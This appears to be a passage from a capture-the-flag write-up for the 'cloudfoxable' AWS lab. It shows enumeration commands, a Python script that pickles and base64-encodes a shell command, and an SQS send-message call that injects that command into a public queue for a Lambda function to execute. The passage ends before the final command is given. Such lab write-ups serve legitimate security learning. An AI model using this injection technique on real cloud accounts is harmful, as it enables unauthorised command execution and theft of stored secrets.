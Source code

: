 > ***Solution Caveat*** &rarr; The challenge has a command execution `python` line commented in the `consumer` Lambda function. I had to uncomment that line to make the function exploitable. I didn't find any other means to modify the Lambda function in concern (in case it was meant to be this). So, I uncommented that line and then deployed the infrastructure with Terraform.
{: .prompt-warning }

The following analysis was done to get some information about the attack path &rarr;

```bash
cloudfox aws permissions --principal pepi -p cloudfoxable -v2
cloudfox aws lambdas -p cloudfoxable -v2
awsn lambda get-function --function-name producer --profile pepi --region us-west-2 # gives download location of code
awsn lambda list-event-source-mappings --profile cloudfoxable --region us-west-2
cloudfox aws resource-trusts -p cloudfoxable -v2
cloudfox aws sqs -p cloudfoxable -v2
cloudfox aws env-vars -p cloudfoxable -v2
cloudfox aws permissions --principal swanson -p cloudfoxable -v2
```

The following information is collected &rarr;

- `pepi` can get information about the `producer` Lambda function, which has a code with a specific format that sends messages to an SQS queue `internal_message_bus`
- The `internal_message_bus` is used as a source mapping for the `consumer` Lambda function i.e., safe to say that a command send by the `producer` Lambda is stored in the `internal_message_bus` queue, which is dequeued by `consumer` Lambda and executed
- The`consumer` Lambda execution role is `swanson`, which has the permissions to read the `lambda-sqs` SSM parameter
- The `internal_message_bus` queue is a public queue that allow anyone to send and receive messages

The code retrieved from `producer` Lambda can be used to create a payload, with the modification looking like &rarr;

```python
import pickle
import json
import base64

command = input()
pickled_command = pickle.dumps(command)
encoded_pickled_command = base64.b64encode(pickled_command).decode('utf-8')
payload = {'command': encoded_pickled_command}
print(json.dumps(payload))
```

The command to execute would be something like `printenv` which will be process by the above code to give a dumped JSON, which can be passed to the queue as follows &rarr;

```bash
awsn sqs send-message --queue-url "https://sqs.us-west-2.amazonaws.com/<ACCID>/internal_message_bus" --message-body '{"command": "gASVDAAAAAAAAACMCHByaW50ZW52lC4="}' --region us-west-2 --profile cloudfoxable
```

Let the command be &rarr;
